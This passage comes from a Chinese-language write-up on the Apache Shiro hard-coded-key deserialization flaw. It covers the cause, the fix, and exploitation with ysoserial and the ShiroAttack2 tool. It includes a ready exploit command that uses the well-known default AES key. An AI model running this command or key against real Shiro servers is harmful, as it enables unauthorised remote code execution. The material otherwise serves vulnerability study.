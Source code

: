 ```shell
# 参数：秘钥 加密模式 gadget command
java -cp ysoserial-all.jar ysoserial.exploit.ShiroGadgetEncrypt kPH+bIxk5D2deZiIxcaaaA== CBC rmi.RMIConnectWithUnicastRemoteObject 127.0.0.1:1999
```

* **jdk241<=version，JRMPClient无法使用**

### 漏洞修复

* 漏洞产生的根本原因是默认使用硬编码秘钥
* `Shiro` 在 `1.2.5` 中对此漏洞进行了修复。系统在启动的时候会生成一个新`key`，用户也可以手动配置一个`cipherKey`。
* **虽然修复了，但如果知道用户设置的秘钥，还是可以利用该漏洞**

### 漏洞利用

* 使用之前漏洞分析的代码

* 工具 [SummerSec/ShiroAttack2: shiro反序列化漏洞综合利用,包含（回显执行命令/注入内存马）修复原版中NoCC的问题 https://github.com/j1anFen/shiro_attack](https://github.com/SummerSec/ShiroAttack2)，这个工具的优点在于有好几条CB链，适用的环境较多

在1.4.2及以后，加密方式更改为了AES GCM，高版本利用时需要更改加密方式

![image-20241101172248562](./images/image-20241101172248562.png)
